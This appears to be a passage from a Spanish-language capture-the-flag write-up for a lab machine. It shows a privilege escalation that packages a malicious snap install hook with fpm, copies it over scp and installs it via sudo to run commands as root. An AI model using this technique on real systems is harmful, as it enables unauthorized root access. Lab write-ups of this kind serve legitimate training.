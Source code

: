Primero, definimos el comando que queremos ejecutar al instalar el paquete Snap. En este caso, usamos `COMMAND=id` para comprobar si la ejecución se realiza con privilegios elevados. Luego, creamos un directorio temporal con `mktemp -d` y nos movemos a él para evitar conflictos con otros archivos.

Dentro de este directorio, generamos la estructura necesaria para el paquete Snap con `mkdir -p meta/hooks`, ya que Snap permite ejecutar scripts en ciertas etapas de la instalación mediante estos hooks. Luego, creamos el script malicioso con `printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install`, donde definimos que el script se ejecutará con `sh`, insertamos el comando `id` y agregamos `false` al final para evitar que Snap elimine el paquete después de ejecutarlo.

Una vez creado el script, le damos permisos de ejecución con `chmod +x meta/hooks/install` para asegurarnos de que pueda correr sin restricciones. Finalmente, usamos `fpm` para empaquetar todo en un archivo Snap ejecutable con `fpm -n xxxx -s dir -t snap -a all meta`. Esto genera el paquete `xxxx_1.0_all.snap`, que podremos instalar con privilegios de root para comprobar si tenemos acceso al sistema con permisos elevados.

```bash
❯ COMMAND=id
❯ cd $(mktemp -d)
❯ mkdir -p meta/hooks
❯ printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
❯ chmod +x meta/hooks/install
❯ 
❯ fpm -n xxxx -s dir -t snap -a all meta
Created package {:path=>"xxxx_1.0_all.snap"}
❯ ls -l
drwxrwxr-x kali kali  60 B  Wed Feb 19 10:33:58 2025  meta
.rw-r--r-- kali kali 4.0 KB Wed Feb 19 10:34:11 2025  xxxx_1.0_all.snap
```

Después de generar el paquete Snap malicioso, lo transferimos a la máquina objetivo utilizando `scp`. Este comando permite copiar archivos de manera segura entre sistemas a través de SSH.

```bash
❯ scp xxxx_1.0_all.snap brucetherealadmin@10.10.10.233:/tmp/
brucetherealadmin@10.10.10.233's password: 
xxxx_1.0_all.snap                     100% 4096    42.2KB/s   00:00 
```

En el equipo víctima, verificaremos que el archivo se ha transferido correctamente.

```bash
[brucetherealadmin@armageddon tmp]$ ls -l
total 4
-rw-r--r--. 1 brucetherealadmin brucetherealadmin 4096 feb 19 02:12 xxxx_1.0_all.snap
```

Si el comando muestra el `uid=0(root) gid=0(root)`, significa que el hook del paquete Snap se ejecutó como `root`. Esto confirma que tenemos la capacidad de ejecutar comandos con privilegios elevados.

```bash
[brucetherealadmin@armageddon tmp]$ sudo snap install xxxx_1.0_all.snap --dangerous --devmode
error: cannot perform the following tasks:
- Run install hook of "xxxx" snap if present (run hook "install": uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0)
```
